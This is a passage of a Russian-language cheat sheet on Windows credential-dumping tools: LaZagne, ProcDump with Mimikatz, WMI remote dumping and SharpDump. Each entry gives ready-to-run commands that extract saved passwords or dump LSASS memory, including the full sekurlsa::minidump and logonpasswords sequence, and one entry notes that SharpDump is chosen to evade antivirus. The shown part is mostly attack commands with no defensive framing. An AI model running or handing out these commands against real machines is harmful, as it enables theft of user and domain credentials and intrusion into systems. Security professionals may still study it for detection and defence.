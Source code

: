  **Команды**:
```powershell
lazagne.exe all
lazagne.exe browsers
```
✅ **Вывод**: Извлекает логины и пароли, сохраненные в системе.

---

### 4️⃣ ProcDump (Sysinternals)
 **Описание**: Легальный инструмент Microsoft Sysinternals, предназначенный для снятия дампов памяти процессов. Используется злоумышленниками для создания дампа `LSASS.exe`, который затем анализируется с помощью `Mimikatz` для извлечения учетных данных.

 **Разработчик**: Microsoft.

 **Команды**:
```powershell
procdump.exe -accepteula -ma lsass.exe lsass.dmp
mimikatz.exe
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```
✅ **Вывод**: Позволяет получить учетные данные из дампа памяти процесса `LSASS`.

---

### 5️⃣ WMI Dumping
 **Описание**: Использование Windows Management Instrumentation (WMI) для выполнения удаленного дампа памяти `LSASS.exe` без загрузки дополнительных инструментов.

 **Команды**:
```powershell
wmic process call create "procdump.exe -accepteula -ma lsass.exe lsass.dmp"
```
✅ **Вывод**: Создание дампа `LSASS`, который затем анализируется с помощью `Mimikatz`.

---

### 6️⃣ SharpDump
 **Описание**: Альтернативный инструмент на языке C# для дампа `LSASS`. Используется для обхода антивирусных решений, поскольку компилируется и выполняется в памяти без записи на диск.

 **Разработчик**: C#-реализация `sekurlsa::minidump`.

 **Команды**:
```powershell
SharpDump.exe
```
✅ **Вывод**: Позволяет создать дамп памяти `LSASS`.

---


## Методы Credential Dumping
